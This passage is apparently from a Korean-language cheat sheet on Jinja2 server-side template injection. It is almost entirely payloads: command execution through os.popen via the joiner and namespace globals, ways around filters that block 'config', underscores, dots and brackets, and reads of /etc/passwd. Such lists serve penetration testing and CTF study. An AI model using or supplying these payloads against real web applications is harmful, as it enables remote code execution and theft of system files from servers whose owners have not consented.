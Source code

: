     - joiner
        
        ```python
        {{ joiner.__init__.__globals__.os.popen('id').read() }}
        ```
        
    - namespace
        
        ```python
        {{ namespace.__init__.__globals__.os.popen('id').read() }}
        ```

<br>


### 1.3.2. Filtering Keyword `config` Bypass

```python
# config가 필터링 되는 경우
{{ self.__dict__ }}
{{ self['__dict__']}}
{{ self|attr("__dict__") }}
{{ self|attr("con"+"fig")}}
{{ self.__getitem__('con'+'fig') }}
{{ request.__dict__ }}
{{ request['__dict__']}}
{{ request.__getitem__('con'+'fig') }}
```
<br>


### 1.3.3. Filtering `_` `.` `[` `]` Bypass

![Untitled](https://www.notion.so/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2F9d5354f0-d4d2-4688-b7e5-8eab8b53d936%2FUntitled.png?table=block&id=1bcd9623-943d-4c09-8c1e-637a847a0f00&spaceId=854b2107-17f9-46f2-9bce-a98a19e3c5cd&width=2000&userId=92264373-62f5-4251-bc57-7ef27ae63364&cache=v2)

```python
# Basic Example
{{ ''.__class__.__mro__[1].__subclasses__() }}
{{ [].class.base.subclasses() }}
{{ ''.class.mro()[1].subclasses() }}

# "_" Filtering: "|attr()" & "\x5f"   or   "['']" & "\x5f"
# "_" == "\x5f"
# \x5f, \137, \u005F, \U0000005F, request.args.get('under') 등 사용
=> {{""|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5fmro\x5f\x5f")[1]|attr("\x5f\x5fsubclasses\x5f\x5f")()}}
=> {{''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read() }}&class=__class__&mro=__mro__&subclasses=__subclasses__

# "." Filtering: "|attr()"   or   "['']"
=> {{""|attr("__class__")|attr("__mro__")[1]|attr("__subclasses__")()}}

# "[", "]" Filtering: "__getitem__()"   or   "pop()"
=> {{"".__class__.__mro__.__getitem__(1).__subclasses__()}}
=> {{''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()}}
=> {{''.__class__.__mro__.__getitem__(2).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen('ls').read()}}
```
